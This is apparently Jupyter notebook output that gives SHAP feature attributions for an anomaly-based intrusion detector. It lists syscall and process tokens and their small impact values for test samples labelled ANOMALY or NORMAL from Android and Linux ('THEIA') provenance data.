


🔍 Analyzing [ANOMALY] | Test Index: 2419
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
                 253           -0.000002
               lseek           -0.000002
       system_server           -0.000001
              system           -0.000001
                  ui           -0.000001
                  67           -0.000000
                read           -0.000000
                 103           -0.000000
                  70           -0.000000
                 169           -0.000000
                 com           -0.000000
               latin           -0.000000
             process           +0.000000
                  55           +0.000000
               write           +0.000000
                 and           +0.000000
              sendto           +0.000000
               acore           +0.000001
       create_object           +0.000001
               event           +0.




🔍 Analyzing [NORMAL] | Test Index: 821
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
             smspush           -0.000001
       create_object           -0.000001
              system           -0.000001
                  ui           -0.000001
                 and           -0.000000
                 103           -0.000000
                  70           -0.000000
               latin           -0.000000
             mozilla           -0.000000
                link           -0.000000
  fennec_firefox_dev           -0.000000
                 dup           -0.000000
                 169           -0.000000
         inputmethod           -0.000000
                 org           -0.000000
                 187           +0.000000
             network           +0.000000
                  64           +0.000000
               acore           +0.000000
              sendto           +0.00




🔍 Analyzing [NORMAL] | Test Index: 1755
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
               acore           -0.000001
              system           -0.000001
                  ui           -0.000001
       create_object           -0.000001
                 and           -0.000000
             process           -0.000000
                  70           -0.000000
               event           -0.000000
                 103           -0.000000
                 169           -0.000000
             mozilla           -0.000000
                link           -0.000000
                 dup           -0.000000
  fennec_firefox_dev           -0.000000
                 org           -0.000000
             smspush           +0.000000
                 187           +0.000000
                  64           +0.000000
             network           +0.000000
              sendto           +0.0




🔍 Analyzing [NORMAL] | Test Index: 155
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
               music           -0.000002
              system           -0.000001
                  ui           -0.000001
       create_object           -0.000000
                 and           -0.000000
                 103           -0.000000
                 169           -0.000000
                  70           -0.000000
             mozilla           -0.000000
  fennec_firefox_dev           -0.000000
                 dup           -0.000000
               latin           -0.000000
                  12           -0.000000
             process           +0.000000
             network           +0.000000
               lseek           +0.000000
                  99           +0.000000
                 187           +0.000000
               acore           +0.000000
              sendto           +0.00




🔍 Analyzing [NORMAL] | Test Index: 705
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
               acore           -0.000001
              system           -0.000001
                  ui           -0.000001
       create_object           -0.000001
                 and           -0.000000
             process           -0.000000
                  70           -0.000000
               event           -0.000000
                 103           -0.000000
                 169           -0.000000
             mozilla           -0.000000
                link           -0.000000
                 dup           -0.000000
  fennec_firefox_dev           -0.000000
                 org           -0.000000
             smspush           +0.000000
                 187           +0.000000
                  64           +0.000000
             network           +0.000000
              sendto           +0.00




🔍 Analyzing [NORMAL] | Test Index: 267
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
 Token (Feature Name) SHAP Value (Impact)
                acore           -0.000001
               system           -0.000001
                   ui           -0.000001
        create_object           -0.000001
                  and           -0.000000
              process           -0.000000
                   70           -0.000000
                  103           -0.000000
                event           -0.000000
              mozilla           -0.000000
check_file_attributes           -0.000000
                  169           -0.000000
                 link           -0.000000
   fennec_firefox_dev           -0.000000
                   12           -0.000000
                  187           +0.000000
              smspush           +0.000000
                   64           +0.000000
              network           +0.000000
               s




████████████████████████████████████████████████████████████████████████████████
🚀 PROCESSING SHAP FOR PERFORMER: THEIA
████████████████████████████████████████████████████████████████████████████████

🔍 Analyzing [ANOMALY] | Test Index: 55950
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
              colord           -0.000005
              x86_64           -0.000002
                 gnu           -0.000002
               linux           -0.000001
                  80           -0.000001
             recvmsg           -0.000001
                 usr           -0.000000
           indicator           -0.000000
                 lib           -0.000000
                 116           -0.000000
             service           -0.000000
              python           -0.000000
           downloads           +0.000000
                 161           +0.000000
                  72           +0.00




🔍 Analyzing [ANOMALY] | Test Index: 55929
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
              colord           -0.000005
              x86_64           -0.000002
                 gnu           -0.000002
               linux           -0.000001
                  80           -0.000001
             recvmsg           -0.000001
                 usr           -0.000000
           indicator           -0.000000
                 lib           -0.000000
                 116           -0.000000
             service           -0.000000
              python           -0.000000
           downloads           +0.000000
                 161           +0.000000
                  72           +0.000000
                mmap           +0.000000
                home           +0.000000
               admin           +0.000000
                bash           +0.000001
            datetime           +0




🔍 Analyzing [ANOMALY] | Test Index: 55927
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
              colord           -0.000005
              x86_64           -0.000002
                 gnu           -0.000002
               linux           -0.000001
                  80           -0.000001
             recvmsg           -0.000001
                 usr           -0.000000
           indicator           -0.000000
                 lib           -0.000000
                 116           -0.000000
             service           -0.000000
              python           -0.000000
           downloads           +0.000000
                 161           +0.000000
                  72           +0.000000
                mmap           +0.000000
                home           +0.000000
               admin           +0.000000
                bash           +0.000001
            datetime           +0




🔍 Analyzing [ANOMALY] | Test Index: 55948
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
              colord           -0.000005
              x86_64           -0.000002
                 gnu           -0.000002
               linux           -0.000001
                  80           -0.000001
             recvmsg           -0.000001
                 usr           -0.000000
           indicator           -0.000000
                 lib           -0.000000
                 116           -0.000000
             service           -0.000000
              python           -0.000000
           downloads           +0.000000
                 161           +0.000000
                  72           +0.000000
                mmap           +0.000000
                home           +0.000000
               admin           +0.000000
                bash           +0.000001
            datetime           +0




🔍 Analyzing [ANOMALY] | Test Index: 55920
------------------------------------------------------------
Top 20 SHAP Drivers (Positive & Negative):
Token (Feature Name) SHAP Value (Impact)
              colord           -0.000005
              x86_64           -0.000002
                 gnu           -0.000002
               linux           -0.000001
                  80           -0.000001
             recvmsg           -0.000001
                 usr           -0.000000
           indicator           -0.000000
                 lib           -0.000000
                 116           -0.000000
             service           -0.000000
              python           -0.000000
           downloads           +0.000000
                 161           +0.000000
                  72           +0.000000
                mmap           +0.000000
                home           +0.000000
               admin           +0.000000
                bash           +0.000001
            datetime           +0

